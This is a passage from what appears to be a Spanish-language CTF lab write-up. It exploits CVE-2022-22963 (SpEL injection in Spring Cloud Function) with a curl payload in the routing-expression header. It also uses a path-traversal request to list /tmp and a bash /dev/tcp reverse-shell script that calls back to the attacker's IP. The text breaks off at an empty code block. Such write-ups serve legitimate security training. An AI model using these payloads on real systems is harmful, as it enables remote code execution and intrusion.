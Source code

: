 Viendo algunas versiones nos encontranos con **Spring Cloud Function Web**, buscando CVE nos encontramos que es vulnerable a SpEL injection.

## Explotación

### Explotación manual

Si buscamos `CVE` relacionadas vemos este [articulo](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)  y este repo de [github](https://github.com/me2nuk/CVE-2022-22963) le pasamos mediante una petición `curl` y con un argumento de java intentamos ejecutar código remoto.


```bash
❯ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Tue, 04 Apr 2023 19:13:59 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-04-04T19:13:59.853+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java
```
Si comprobamos , notamos que se creo el archvo.

```bash
❯ curl 'http://10.10.11.204:8080/show_image?img=.././../../../../../././../../../../../tmp'
.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
hsperfdata_frank
pwned
sKlBs
systemd-private-ba772bbc011b4fcb873f3ed2eefd0cc5-ModemManager.service-KPpmah
systemd-private-ba772bbc011b4fcb873f3ed2eefd0cc5-systemd-logind.service-akTACh
systemd-private-ba772bbc011b4fcb873f3ed2eefd0cc5-systemd-resolved.service-Dxeleh
systemd-private-ba772bbc011b4fcb873f3ed2eefd0cc5-systemd-timesyncd.service-6fJWPg
tomcat.8080.13169043535093016834
tomcat-docbase.8080.5822812062628089578
vmware-root_741-4248811580
YbRuN.b64
```
Creamos una reverse shell.
```bash
❯ cat pwned.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.83/443 0>&1
```
Nos creamos un servidor python
```bash
```